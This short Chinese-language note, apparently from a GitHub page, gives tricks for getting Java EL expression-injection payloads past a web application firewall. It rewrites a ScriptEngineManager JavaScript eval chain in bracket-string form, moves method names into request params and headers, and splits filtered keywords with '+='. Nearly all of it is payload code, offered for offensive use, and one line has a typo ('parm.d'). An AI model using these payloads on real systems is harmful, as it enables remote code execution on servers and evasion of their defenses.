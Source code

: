 # el表达式绕waf的trick

在 el 表达式中，可以使用 `a["b"]` 或者 `a.b` 这两种方法来获取属性的

如果把函数名或者属性变成字符串，那去混淆就简单多了，比如 ``` "".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("payload") ``` 

可以变成 ``` ${""["getClass"]()["forName"]("javax.script.ScriptEngineManager")["newInstance"]()["getEngineByName"]("JavaScript")["eval"]("payload")} ``` 

同时支持param与header读取

其中每一个字符串都可以使用 `param.xxx` 的参数来替换，或者使用 el 表达式进行拼接转换，比如 ``` ${""["getClass"]()[param.a](param.b)[param.c]()[parm.d](param.e)[param.f](param.g)} ```

以上payload可以使用header做替换```${header['host'] }```

对于关键字过滤也可以使用+=绕过

```${""["getC"+="lass"]()```

